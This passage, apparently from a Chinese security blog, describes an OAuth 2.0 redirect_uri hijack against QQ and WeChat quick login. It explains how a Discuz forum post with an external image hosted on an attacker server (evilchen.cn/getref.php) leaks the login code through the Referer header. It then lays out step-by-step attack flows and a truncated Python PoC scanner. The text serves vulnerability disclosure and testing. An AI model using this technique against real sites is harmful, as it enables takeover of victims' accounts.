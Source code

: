 ![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-02-12/0x04.jpg)

很多厂商都会有社区、论坛等功能，大部分会使用Discuz程序来做，而Discuz确实可以引用外部资源~

这里我使用的图片地址还是 http://www.evilchen.cn/getref.php 然后进行帖子回复。

帖子地址为 http://bbs.a.com/thread-123-1-1.html 将帖子地址作为参数**redirect_uri**的值，然后诱导用户A点击登陆，这时候跳转的链接就变成了：

http://bbs.a.com/thread-123-1-1.html?code=120ED71CAECB11BAD538820E12B54664

跳转之后这个链接会做为HTTP Referer的值再请求 http://www.evilchen.cn/getref.php 那么我的服务器就会接收到code的值，再根据Request 2的值填入，我就可以获取用户A在a.com的账号权限了：

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-02-12/0x05.jpg)

# **攻击流程**

1.我点击 http://a.com 的QQ登录，获取QQ快捷登录链接，替换redirect_uri的值为如上两个问题的地址然后发送给受害者2.受害者点击QQ头像登录，会跳转到redirect_uri的值(链接)，并且携带上code的值

3.受害者浏览器以跳转后的链接作为referer头请求外链图片(php)

4.攻击者获取referer的值，构建B地址，并且进入链接(注意 攻击者要在未登录情况下)

# **微信快捷登陆流程**

开发平台：https://open.weixin.qq.com/

http://a.com的地址如下：

https://open.weixin.qq.com/connect/qrconnect?appid=&redirect_uri=http://a.com/wx?callback=null

微信扫描后会跳转到：

http://a.com/weixin?callback=null&code=021n2XAB00C4mg2FvKyB0W7QAB0n2XAF

而只要利用QQ快捷登陆的方法我们一样可以获取到code的值

# **攻击流程**

1.我点击http://a.com的QQ登录，获取微信快捷登录链接，替换redirect_uri的值为如上两个问题的地址然后发送给受害者
2.受害者点开微信扫描，会跳转到redirect_uri的值(链接)，并且携带上code的值

3.受害者浏览器以跳转后的链接作为referer头请求外链图片(php)

4.攻击者获取referer的值，构建B地址，并且进入链接(注意 攻击者要在未登录情况下)

# **风险检测**

我简单的写了个poc，仅仅做风险检测，具体危害可以自行检查~~（**PS：这里小编对PoC进行了简单的优化，支持微信跟QQ的快捷登陆风险检测**）

```python
# -*- coding:utf-8 -*-
# Name: QQ and WeChat OAuth2.0 PoC
# Auther: MSTLab(EvilChen)

import requests,urlparse,urllib

def scan(url):
	url = urllib.unquote(url)
	tempUrl = getValue(url)
	tempDomain = urlparse.urlparse(tempUrl).netloc
	domainA = tempDomain.split('.')
	domainB = tempDomain.replace(domainA[0],"mstlab")
	url = url.replace(tempUrl,"http://" + domainB)
	r = requests.get(url)
	# print url
```